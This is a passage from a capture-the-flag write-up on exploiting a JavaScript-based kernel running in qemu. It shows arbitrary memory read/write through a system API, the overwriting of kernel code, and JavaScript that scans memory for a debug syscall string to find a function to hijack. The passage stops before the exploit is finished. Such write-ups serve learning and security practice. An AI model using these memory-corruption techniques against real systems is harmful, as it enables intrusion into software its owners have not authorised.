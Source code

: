 Messing around we find that we can't request 0 (but we can get 1) and we're restricted to
the 32-bit address space (but we were pretty sure it was running 64bit code).

So now that we have arbitrary read/write, what the hell are we supposed to do with it...
we can't access `0xdeadbeeeef` since that's outside our 32bit space (and the description
mentioned that was the physical adddress, which we sort of ignored at this point, hoping
it was 1-to-1 with virtual memory)

#### Step 2: Popkern

After a while, someone stumbled onto `startup.asm` which ran setup code for the kernel and
included another file `startup_conf.inc`, with the following:

```
; Jump to C++ kernel entry point
    xor rdi, rdi
    mov edi, dword [mbt]
    jmp 0x201000
```

Using the read/write primitive, we trashed 0x2010000 and qemu entered an endless reboot
loop. Guess they didn't get to memory protections, looks like we overwrote kernel code.
Seems promising, but we need controlled execution. We needed to find some code we could
identify and execute at will, like a syscall. I picked the debug syscall:

```c
NATIVE_FUNCTION(NativesObject, Debug) {
  PROLOGUE_NOTHIS;
  USEARG(0);
  printf(" --- DEBUG --- \n");
}
```

It basically does nothing, and the string is something unique we can search for in memory.
Then with that address, we can search for xrefs to it in the kernel code and that'll
probably give us the `debug()` function. Here's my code to search the memory space

```javascript
block = function(addr, len)
{
    return new Uint8Array(__SYSCALL.getSystemResources().memoryRange.block(addr, len).buffer())
}

strdump = function(a, len) {
    s = ""
    for (var i = 0; i < len; i++)
        s += String.fromCharCode(a[i])
    return s
}

dbg_str = 0x0
for (var cur = 0x201000; 1; cur += 0x1000)
{
    a = block(cur, 0x1000)
    s = strdump(a, 0x1000)
    if (s.indexOf(" --- DEBUG --- ") !== -1)
    {
        idx = s.indexOf(" --- DEBUG --- ")
        console.log(s.substring(idx,idx+20))
        dbg_str = cur+idx
        console.log("STRING: "+dbg_str.toString(16))
        break
    }
}
```
